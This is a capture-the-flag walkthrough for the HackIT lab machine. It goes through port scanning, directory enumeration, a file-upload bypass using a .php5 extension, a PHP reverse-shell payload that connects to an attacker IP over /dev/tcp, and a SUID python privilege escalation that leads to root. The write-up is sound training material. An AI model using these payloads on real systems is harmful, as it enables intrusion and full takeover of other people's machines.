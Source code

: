 # HackIT CTF Walkthrough

## Nmap Scan

```bash
nmap -sS 10.10.183.212
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Service Enumeration

```bash
nmap -sC -sV -p 22,80 10.10.183.212
```
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
```

> ⚠️ Note: Although the server reports Apache `2.4.41`, the challenge expects version `2.4.29`.

## Directory Enumeration

```bash
gobuster dir -u http://10.10.183.212 -w /usr/share/wordlists/dirb/common.txt
```
```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/css                  (Status: 301) --> /css/
/index.php            (Status: 200)
/js                   (Status: 301) --> /js/
/panel                (Status: 301) --> /panel/
/server-status        (Status: 403)
/uploads              (Status: 301) --> /uploads/
```

Discovered `/panel/` which allows file uploads.

## Initial Foothold - File Upload Bypass

The server blocks `.php` uploads, but allows alternate PHP extensions (`.php5`, `.phtml`).

### Reverse Shell Payload

`shell.php5`:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.201.59.141/4444 0>&1'"); ?>
```

### Listener

```bash
nc -lvnp 4444
```

Accessing `http://10.10.183.212/uploads/shell.php5` triggers a reverse shell.

```
Connection received on 10.10.183.212 59852
```

## User Flag

```bash
find / -type f -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```
```
*flag value*
```

## Privilege Escalation

Upgrade shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Check for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```
Found `/usr/bin/python2.7` with SUID.

Exploit via GTFOBins:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Root Flag

```bash
find / -type f -name "root.txt" 2>/dev/null
cat /root/root.txt
```
```
*flag value*
```
